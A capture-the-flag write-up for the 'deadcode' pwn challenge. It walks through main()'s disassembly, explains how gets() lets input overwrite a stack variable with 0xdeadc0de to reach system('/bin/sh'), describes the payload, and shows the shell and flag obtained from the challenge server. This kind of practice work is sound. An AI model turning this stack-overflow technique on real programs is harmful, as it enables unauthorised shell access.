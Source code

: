 For this challenge, we are presented with a single binary named "deadcode". When we run it, we get the following output and it hangs waiting for user input.

```
$ ./deadcode 

I'm developing this new application in C, I've setup some code for the new features but it's not (a)live yet.

What features would you like to see in my app?
```

Here's the disassembly of the main() function.

```asm
   0x0000000000401195 <+0>:     push   rbp
   0x0000000000401196 <+1>:     mov    rbp,rsp
   0x0000000000401199 <+4>:     sub    rsp,0x20
   0x000000000040119d <+8>:     mov    QWORD PTR [rbp-0x8],0x0
   0x00000000004011a5 <+16>:    mov    eax,0x0
   0x00000000004011aa <+21>:    call   0x401152 <buffer_init>
   0x00000000004011af <+26>:    lea    rdi,[rip+0xe52]        # 0x402008
   0x00000000004011b6 <+33>:    call   0x401030 <puts@plt>
   0x00000000004011bb <+38>:    lea    rdi,[rip+0xeb6]        # 0x402078
   0x00000000004011c2 <+45>:    call   0x401030 <puts@plt>
   0x00000000004011c7 <+50>:    lea    rax,[rbp-0x20]
   0x00000000004011cb <+54>:    mov    rdi,rax
   0x00000000004011ce <+57>:    mov    eax,0x0
   0x00000000004011d3 <+62>:    call   0x401060 <gets@plt>
   0x00000000004011d8 <+67>:    mov    eax,0xdeadc0de
   0x00000000004011dd <+72>:    cmp    QWORD PTR [rbp-0x8],rax
   0x00000000004011e1 <+76>:    jne    0x401200 <main+107>
   0x00000000004011e3 <+78>:    lea    rdi,[rip+0xebe]        # 0x4020a8
   0x00000000004011ea <+85>:    call   0x401030 <puts@plt>
   0x00000000004011ef <+90>:    lea    rdi,[rip+0xed5]        # 0x4020cb
   0x00000000004011f6 <+97>:    mov    eax,0x0
   0x00000000004011fb <+102>:   call   0x401050 <system@plt>
   0x0000000000401200 <+107>:   mov    eax,0x0
   0x0000000000401205 <+112>:   leave  
   0x0000000000401206 <+113>:   ret    
```

In the prologue we can see that it's making 32 bytes (0x20) of space on the stack and then setting the last eight bytes to 0x0. Next it calls a buffer_init() function which disables buffering on standard input, standard out, and standard error which is commonly done in these types of problems. Next, it prints out the two lines we saw when we ran it by calling puts() twice. Next it calls gets() to read input from the user and stores it starting at the 32 byte space it made on the stack. Finally it checks to see whether the value represented by the last eight bytes of the space it made on the stack (and which it had previous set to 0x0) is equal to 0xdeadc0de and if not it jumps to the epilogue and exits. If the last eight bytes do contain that value, it falls through into code which prints out another string using puts() and then calls system("/bin/sh").

The gets() function reads user input until it encounters a newline character and there is not way for the programmer to limit the maximum amount of characters which the user sends before sending a newline character. Therefore, all that we need to do in order to write 0xdeadcode into the last eight bytes of the buffer is to send 24 characters of filler followed by the little-endian representation of the number 0xdeadcode.

Here's the output when run against the challenge server:

```
$ python deadcode.py REMOTE
[+] Opening connection to pwn-2021.duc.tf on port 31916: Done
[*] Switching to interactive mode


Maybe this code isn't so dead...
$ cat flag.txt
DUCTF{y0u_br0ught_m3_b4ck_t0_l1f3_mn423kcv}
```

